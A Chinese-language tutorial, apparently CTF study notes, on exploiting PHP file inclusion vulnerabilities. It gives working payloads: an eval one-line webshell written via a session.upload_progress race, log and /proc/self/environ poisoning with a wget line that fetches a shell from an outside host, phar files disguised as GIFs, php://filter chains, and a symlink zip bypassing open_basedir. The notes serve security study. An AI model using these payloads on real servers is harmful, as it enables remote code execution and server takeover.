





# **PHP文件包含**
# **常见包含函数**
* include()/include_once()
* require()/require_once()
* file_get_contents()
* readfile()

**1. include()/include_once()**

|配置项开关	| 包含本地路径文件 | 包含远程链接文件	| 伪协议方式包含 |
|-----|-----|-----|-----|
|allow_url_fopen = Off \| allow_url_include = Off	| YES | NO	| NO |
|allow_url_fopen = Off \| allow_url_include = On	| YES | NO	| YES |
|allow_url_fopen = On \| allow_url_include = Off	| YES | NO	| NO |
|allow_url_fopen = On \| allow_url_include = On     | YES | YES	| YES |
||||

**结论：**
allow_url_include 的开启对能否使用伪协议 php://input data://的形式起着决定作用，其他为协议似乎没有影响
allow_url_fopen单独开启没有实质作用，但是和 allow_url_include 结合就能实现远程包含

**2. require()/require_once()**
require() 和 include() 是一样的结果，同上。

**3. readfile()**

|配置项开关	| 包含本地路径文件 | 包含远程链接文件	| 伪协议方式包含 |
|-----|-----|-----|-----|
|allow_url_fopen = Off \| allow_url_include = Off	| YES | NO	| NO |
|allow_url_fopen = Off \| allow_url_include = On	| YES | NO	| YES |
|allow_url_fopen = On \| allow_url_include = Off	| YES | YES	| YES |
|allow_url_fopen = On \| allow_url_include = On     | YES | YES	| YES |
||||

**结论：**
对readfile()：allow_url_include 对其没有任何影响，allow_url_fopen 能让其包含远程文件

**4. file_get_contents()**

|配置项开关	| 包含本地路径文件 | 包含远程链接文件	| 伪协议方式包含 |
|-----|-----|-----|-----|
|allow_url_fopen = Off \| allow_url_include = Off	| YES | NO	| YES |
|allow_url_fopen = Off \| allow_url_include = On	| YES | NO	| YES |
|allow_url_fopen = On \| allow_url_include = Off	| YES | YES	| YES |
|allow_url_fopen = On \| allow_url_include = On     | YES | YES	| YES|
||||

**结论：**
对 file_get_contents()，allow_url_include 对其没有任何影响，allow_url_fopen 能让其包含远程文件

# **利用方式汇总**
# 远程文件包含
包含远程文件，要用到协议，除了常见的 http:// https:// php 还给我们提供了常见的可以用来包含的协议，比如说 ftp:// data://
以data://为例子，这里我直接给出 payload:
data://text/plain;base64,PD9waHAgcGhwaW5mbygpOw==
其中 base64 部分就是 <?php phpinfo();
# 本地文件包含
## SESSION文件包含
PHP在session存储和读取时,都会有一个序列化和反序列化的过程，PHP内置了多种处理器用于存取 $_SESSION 数据，都会对数据进行序列化和反序列化，
使用了session来保存用户会话，php手册中是这样描述的：
* 1.PHP 会将会话中的数据设置到 $_SESSION变量中。
* 2.当 PHP 停止的时候，它会自动读取 $_SESSION 中的内容，并将其进行序列化，然后发送给会话保存管理器来进行保存。
* 3.对于文件会话保存管理器，会将会话数据保存到配置项 session.save_path 所指定的位置。
* 
php的session文件的保存路径可以在phpinfo()的session.save_path看到，常见的php-session存放位置：

```
/var/lib/php/sess_PHPSESSID
/var/lib/php/sess_PHPSESSID
/tmp/sess_PHPSESSID
/tmp/sessions/sess_PHPSESSID
```
常见的利用方式是将小马代码写入session中，然后通过本地文件包含session文件，即可getshell.
## 利用 session.upload_progress 进行文件包含和getshell
相关例题：<br>
SCTF2018 BabySyc - Simple PHP<br>
https://www.jianshu.com/p/051a87f45222?utm_campaign=maleskine&utm_content=note&utm_medium=reader_share&ut<br>
hitcon 2018 one line php challenge<br>
http://wonderkun.cc/index.html/?p=718<br>
在我们的利用面涉及到两个重要的选项，session_upload_progress.enable 和 session_upload_progress.cleanup 而这两个选项 php 官方是默认开启的，并且强烈推荐我们开启
如图所示：

我们回归正题，先解释一下这个上传进度的概念，session.upload_progress 是PHP5.4的新特征
官方文档的介绍如下：

假设有这么一个上传表单:
```html
<html>
<head></head>
<body>
    <form action="./upload.php" method="post" enctype="multipart/form-data">
     <input type="hidden" name=<?php echo ini_get('session.upload_progress.name');?> value="<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>" />
     <input type="file" name="file1" value = ""/>
     <input type="file" name="file2" value = ""/>
     <input type="submit" name = "submit" value = "upload"/>
    </form>
</body>
</html>
```
session.upload_progress.name的值为:
```php
<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>
```
如果我们能通过疯狂发包，使得这个 hidden 的 POST 数据能在文件传输没有完成的时候被服务器接收到，那么服务器就会在 session 临时文件中存储 这个文件的上传进度（当然是以序列化的形式显示的）
```php
$_SESSION["upload_progress_<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>"] = array(
     "start_time" => 1234567890,   // The request time
     "content_length" => 57343257, // POST content length
     "bytes_processed" => 453489,  // Amount of bytes received and processed
     "done" => false,              // true when the POST handler has finished, successfully or not
     "files" => array(
              0 => array(
              "field_name" => "file1",       // Name of the <input/> field
              // The following 3 elements equals those in $_FILES
              "name" => "foo.avi",
              "tmp_name" => "/tmp/phpxxxxxx",
              "error" => 0,
              "done" => true,                // True when the POST handler has finished handling this file
             "start_time" => 1234567890,    // When this file has started to be processed
             "bytes_processed" => 57343250, // Amount of bytes received and processed for this file
  ),
```
即session文件的内容为一条序列化的数据:
```php
…….;s:26:"<?php file_put_contents("xx","<?php eval(@$_POST['cmd']);?>")?>"|…….
```
但是还存在一个问题，当 session.upload_progress.cleanup为 On 的时候，$_SESSION 中的这个上传进度信息会在读取完全部的 POST 数据后立刻删除（删除的是 session 文件中的上传进度的部分内容，而不是session ），于是乎这个时候就需要条件竞争

我们从 PHPSESSID 中得到我们的 session 名以后，我们就一边疯狂请求 upload 页面 一边疯狂包含我们的 session 文件就好了

## 其他本地文件包含利用姿势
• **数据库文件**<br>
数据库就是从纯文件的管理方式中进化而来，在计算机中存储的依然是文件，那么我们能不能在数据库中动动手脚，向数据库中的某个文件注入我们的恶意代码然后本地文件包含呢？当然可以，在 phpmyadmin 4.8.1 后台 getshell 中漏洞的发现者就是利用了这样一种技术成功包含了数据库的文件

• **临时文件**<br>
向服务器上任意php文件以 form-data 方式提交请求上传数据时，会生成临时文件,通过phpinfo来获取临时文件的路径以及名称,然后临时文件在极短时间被删除的时候,需要条件竞争包含临时文件，然后如果临时文件的内容是一个向 web 目录写一句话，我们就能成功执行这段代码，并写 shell 到 web 目录最终拿到webshell(临时文件的文件名和位置需要在phpinfo 页面中查看)

• **日志文件**<br>
日志文件污染是通过将注入目标系统的代码写入到日志文件中。通常，访问目标系统上的某些对外开放的服务时，系统会自动将访问记录写入到日志文件中，利用这个机制，有可能会将代码写入到日志中。例如，利用一个包含PHP反弹shell的URL访问目标系统时，目标系统会返回一个404页面，并将创建一个apache的访问记录，记录中会包含之前的PHP反弹shell。利用之前已经发现的文件包含漏洞，可以解析apache的日志文件，从而执行日志中的PHP反弹shell。
日志文件的位置的确定就要前期的信息收集，一方面确定默认的日志的位置，另一方面可以利用这个包含漏洞包含一些配置文件寻找日志的位置。

• **包含上传的文件**<br>
如果上传的文件名字为：test.php::$DATA，会在服务器上生成一个test.php的文件，其中内容和所上传文件内容相同，并被解析。假设我们需要上传的文件内容为：<?php phpinfo();?>下面是上传是会出现的现象：
```
Test.php:a.jpg     生成Test.php  文件内容为空
Test.php::$DATA  生成test.php  文件内容为<?php phpinfo();?>
Test.php::$INDEX_ALLOCATION  生成test.php文件夹
Test.php::$DATA\0.jpg  生成0.jpg  文件内容为<?php phpinfo();?>
Test.php::$DATA\aaa.jpg  生成aaa.jpg  文件内容为<?php phpinfo();?>
PS: 上传test.php:a.jpg的时候其实是在服务器上正常生成了一个数据流文件，可以通过notepad test.php:a.jpg查看内容，而test.php为空也是正常的。
```
• **包含/proc/self/environ文件**<br>
```
1）找到文件包含漏洞
测试一下找出来www.aaa.com/view.php?page=../ 或者www.aaa.com/view.php?page=../../../../../etc/passwd
2）检查proc/self/environ是否可用访问www.aaa.com/view.php?page=../../../../../proc/self/environ，可访问就能利用了
3）注入代码
访问www.aaa.com/view.php?page=../../../../../proc/self/environ
选择User-Agent 写代码如下：<?system('wget http://www.yourweb.com/oneword.txt -O shell.php');?>然后提交请求。
```
# php 伪协议包含
php://input 你要用还是需要 allow_url_include 打开<br>
data:// 更是需要 php_url_fopen 和 php_uri_include 都打开<br>
## **php://input**<br>
php://input 是个可以访问请求的原始数据的只读流(这个原始数据指的是POST数据)



## **phar://协议**

文件归档到一个文件包，将一个模块的文件打包成一个phar，这样方便模块整体迁移，只需将phar文件移动过去，其他环境中include即可使用。类似于java的 .jar 文件。<br>
php 5.3时，为php的C语言扩展，安装php时会默认安装。
特点就是能将任意后缀名的压缩包解包，得到里面指定的内容，这个方法在绕过后缀名限定的包含中非常好用。
```php
class TestObject {
}
$phar = new Phar("my.jpg");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub
$o = new TestObject;
$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("shell.php", "<?php phpinfo(); ?>"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
```
```php
callphar.php
<?php
    include 'phar://my.jpg/shell.php';
?>
```
访问callphar.php即可调用shell.php，注意：phar文件不受文件名限制，即my.phar可以任意的重命名为aaa.bbb
```php
callphar.php
<?php
    include 'phar://aaa.bbb/shell.php';
?>
```
## **phar更改文件头魔术**
在前面分析phar的文件结构时可能会注意到，php识别phar文件是通过其文件头的stub，更确切一点来说是__HALT_COMPILER();?>这段代码，对前面的内容或者后缀名是没有要求的。那么我们就可以通过添加任意的文件头+修改后缀名的方式将phar文件伪装成其他格式的文件。
```php

$phar = new Phar('phar.phar');
$phar -> startBuffering();
// 增加GIF89a文件magic
$phar -> setStub('GIF89a'.'<?php __HALT_COMPILER();?>');   //设置stub，增加gif文件头
$phar ->addFromString('test.txt','<?php phpinfo(); ?>');  //添加要压缩的文件
$object = new TestObject();
$object -> data = 'hu3sky';
$phar -> setMetadata($object);  //将自定义meta-data存入manifest
$phar -> stopBuffering();
```
## **php://filter**

```php
/* 这简单等同于：
  readfile("http://www.example.com");
  实际上没有指定过滤器 */
readfile("php://filter/resource=http://www.example.com");
/* 这会以大写字母输出 www.example.com 的全部内容 */
readfile("php://filter/read=string.toupper/resource=http://www.example.com");
/* 这会和以上所做的一样，但还会用 ROT13 加密。 */
readfile("php://filter/read=string.toupper|string.rot13/resource=http://www.example.com");
/* 这会通过 rot13 过滤器筛选出字符 "Hello World"
  然后写入当前目录下的 example.txt */
file_put_contents("php://filter/write=string.rot13/resource=example.txt","Hello World");
```
1、字符串过滤器：
* string.rot13 对字符串执行ROT13转换
* string.toupper转换为大写
* string.tolower 转换为小写
* string.strip_tags去除html和php标记

2、转换过滤器：
* convert.base64-encode & convert.base64-decode ：base64编码/解码
* convert.quoted-printable-encode & convert.quoted-printable-decode：将 quoted-printable 字符串转换为 8-bit 字符串

3、压缩过滤器：
* zlib.deflate和 zlib.inflate
* bzip2.compress和 bzip2.decompress

4、加密过滤器：
* mcrypt.tripledes和mdecrypt.tripledes等

```php
<?php
include "php://filter/read=convert.base64-decode/resource=php://input";
include "php://filter/read=convert.base64-decode/resource=phar://./phar.phar/test.txt";
include "php://filter/resource=phar://./phar.phar/test.txt";
```
参考：https://www.php.net/manual/zh/wrappers.php.php

## **通过软链接文件**
通过软链接的方式进行文件读取包含可绕过open_basedir的限制
相关赛题：HCTF2018 hide and seek : https://xz.aliyun.com/t/3245#toc-6.
我们首先构造一个指向 /etc/passwd 的软链接文件，看看能不能成功
```sh
root@ubuntu:~# ln -s /etc/passwd test
看一下软链接的指向
lrwxrwxrwx  1 root root     11 Nov 11 06:45 test -> /etc/passwd
现在我们把这个文件进行压缩
root@ubuntu:~# zip -y test.zip test
```
上传然后 submit，借助文件包含漏洞，可任意读取相关文件，即使有open_basedir的限制.

## **参考文献**
【1】[Facebook本地文件读取漏洞]. http://www.vuln.cn/8132<br>
【2】[HCTF2018 Writeup]. https://xz.aliyun.com/t/3245#toc-6<br>
【3】[常见文件包含发生场景与防御]. https://www.anquanke.com/post/id/86123<br>
【4】[Session 上传进度]. http://php.net/manual/zh/session.upload-progress.php<br>
【6】[php伪协议实现命令执行的七种姿势]. https://www.freebuf.com/column/148886.html<br>
【7】[包含日志文件getshell]. http://www.cnblogs.com/my1e3/p/5854897.html<br>
【8】http://www.k0rz3n.com/2018/11/20/%E4%B8%80%E7%AF%87%E6%96%87%E7%AB%A0%E5%B8%A6%E4%BD%A0%E7%90%86%E8%A7%A3%E6%BC%8F%E6%B4%9E%E4%B9%8B%20PHP%20%E6%96%87%E4%BB%B6%E5%8C%85%E5%90%AB%E6%BC%8F%E6%B4%9E/<br>
【9】[Session upload 文件包含].https://www.jianshu.com/p/051a87f45222?utm_campaign=maleskine&utm_content=note&utm_medium=reader_share&utm_source=weixin<br>
【10】http://wonderkun.cc/index.html/?p=718<br>
【11】[软连接文件包含绕过open_basedir].https://xz.aliyun.com/t/2589<br>
【12】http://www.vuln.cn/8132<br>
